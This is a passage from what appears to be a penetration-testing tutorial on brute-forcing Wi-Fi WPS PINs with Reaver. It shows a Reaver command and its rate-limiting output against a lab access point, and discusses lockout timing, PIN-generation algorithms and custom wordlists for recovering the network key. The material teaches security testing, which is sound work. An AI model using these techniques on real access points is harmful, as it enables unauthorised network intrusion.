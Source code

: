* * *

With the latest models from certain vendors, when the access point reaches the 10th incorrect PIN attempt, it will lock for 365 days, preventing any further bruteforce attempts.

```shell
reaver -i mon0 -c 1 -b 86:53:10:C3:1B:26 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>
<SNIP>
[+] Trying pin "77775672"
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking

```

This leads us to ask the following questions when employing these brute-forcing techniques:

- Will the access point lock after 3 incorrect attempts?
- How long does the access point stay locked? (Different vendors have different locking time.)
- Would PIN generation algorithms allow us to refine the total amount of guesses? (Covered in the next section.)

If the access point (AP) locks after three incorrect attempts, using PIN generation algorithms to narrow down the total number of guesses and create a custom wordlist can be beneficial. However, in some cases, we might get lucky and find the correct PIN within the first 10 bruteforce attempts, before the AP locks indefinitely. Gathering information on these questions through research and enumeration allows us to craft better attacks towards WPS services for access points. The better technique that we utilize, the lower our chances are of failure when attempting to retrieve the PSK through WPS.


# Using Multiple Pre-defined PINs

* * *

While it is possible to bruteforce the WPS PIN using `Reaver`, we can also use a custom wordlist of potential PINs. In this section, we will explore how to generate possible PINs for a WiFi network using `wpspin` and then create a custom bash script to bruteforce the access point with these PINs.

* * *
